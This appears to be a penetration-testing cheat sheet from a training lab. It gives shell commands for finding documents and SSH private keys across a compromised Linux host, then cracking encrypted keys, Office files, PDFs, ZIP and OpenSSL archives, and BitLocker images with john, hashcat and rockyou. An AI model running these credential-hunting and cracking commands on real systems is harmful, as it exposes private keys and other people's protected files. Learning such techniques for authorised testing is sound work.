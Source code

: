 
```bash
# hunting for files
for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done

# hunting for ssh keys
grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"

# encrypted ssh keys
cat /home/cry0l1t3/.ssh/SSH.private
wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/ssh2john.py
ssh2john.py SSH.private > ssh.hash
john --wordlist=rockyou.txt ssh.hash
john ssh.hash --show
```
## Cracking documents
#### docs
```bash
office2john.py Protected.docx > protected-docx.hash
john --wordlist=rockyou.txt protected-docx.hash
john protected-docx.hash --show
```
#### pdf
```bash
pdf2john.py PDF.pdf > pdf.hash
john --wordlist=rockyou.txt pdf.hash
john pdf.hash --show
```
#### archives
Get list of extensions:
```bash
curl -s https://fileinfo.com/filetypes/compressed | html2text | awk '{print tolower($1)}' | grep "\." | tee -a compressed_ext.txt
```
Zip:
```bash
zip2john ZIP.zip > zip.hash
john --wordlist=rockyou.txt zip.hash 
```
OpenSSl encrypted archives:
```bash
file GZIP.gzip 

GZIP.gzip: openssl encd data with salted password

# dictionary attack
for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null| tar xz;done

ls
```
#### bitlocker
Brute-force recovery key of 48-digits.
```bash
bitlocker2john -i Backup.vhd > backup.hashes
grep "bitlocker\$0" backup.hashes > backup.hash

hashcat -m 22100 backup.hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt -o backup.cracked

cat backup.cracked 
```
